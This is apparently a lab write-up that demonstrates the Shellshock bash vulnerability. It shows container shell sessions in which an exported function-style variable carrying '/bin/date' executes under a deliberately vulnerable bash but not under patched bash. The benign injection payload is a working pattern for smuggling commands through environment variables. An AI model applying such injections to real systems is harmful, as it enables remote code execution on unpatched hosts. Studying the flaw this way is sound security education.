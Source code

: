- **Shellshock vulnerable bash experiment**

```bash
root@eba8d1f35da1:/# export foo='() { echo bar; } ; /bin/date'
root@eba8d1f35da1:/# /usr/bin/bash_shellshock 
Fri Mar 11 10:38:58 UTC 2022
root@eba8d1f35da1:/# env
HOSTNAME=eba8d1f35da1
TERM=xterm
LS_COLORS=...
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/
SHLVL=2
HOME=/root
foo=() {  echo bar
}
_=/usr/bin/env
root@eba8d1f35da1:/# declare -f foo                                        
foo () 
{ 
    echo bar
}
root@eba8d1f35da1:/# foo                                                   
bar
root@eba8d1f35da1:/# echo $foo                                             

root@eba8d1f35da1:/#
```

The following experiment concerns the `/bin/bash`, which was patched and is not vulnerable, therefore no code execution takes place. By exporting the same `foo` variable we can observe that this vulnerability no longer exists. One thing that's also different from the Shellshock bash is that the `foo` is defined as an environment variable and not as a function.

- **Non-vulnerable bash experiment**

```bash
root@eba8d1f35da1:/# export foo='() { echo bar; } ; /bin/date'
root@eba8d1f35da1:/# bash
root@eba8d1f35da1:/# env
HOSTNAME=eba8d1f35da1
PWD=/
HOME=/root
LS_COLORS=...
foo=() { echo bar; } ; /bin/date
TERM=xterm
SHLVL=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
root@eba8d1f35da1:/# declare -f foo
root@eba8d1f35da1:/# foo
bash: foo: command not found
root@eba8d1f35da1:/# echo $foo
() { echo bar; } ; /bin/date
root@eba8d1f35da1:/# 
```
